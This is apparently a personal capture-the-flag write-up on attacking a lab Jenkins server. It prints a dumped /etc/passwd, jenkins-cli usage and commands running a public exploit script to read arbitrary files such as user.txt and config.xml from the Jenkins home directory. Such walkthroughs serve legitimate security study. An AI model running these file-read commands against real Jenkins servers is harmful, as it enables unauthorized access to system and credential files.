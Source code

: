 Now let's try to exfiltrate some useful files, which didn't really work out, as I could not find any SSH keys.

After a hint to check the documentation I found that you can download a Jenkins client to the attack machine. 
![[Pasted image 20241021170005.png]]
And this even worked!
![[Pasted image 20241021170038.png]]

Then I checked the command that was needed to use to use this `.jar` file, because I have not seen it before like this.
```sh
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help bingbong
```
This was very hard so i stopped doing this..

---
### Hint
I got another hint to look at the output of the `/etc/passwd` file.
```c
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```
> this revealed that there was a user jenkins that has a home directory in the `/var/jenkins_home` folder. 

Managed to get the user flag with the following payloads:
```sh
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/user.txt
```

Since I didn't know what files would be in this directory I searched on goolgle `typical file structure of Jenkins`, which returned me with a post with with the file structure. 

To test if this is correct I tried something simple from the jenkins_home folder:
```sh
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/config.xml
```
This worked!!!
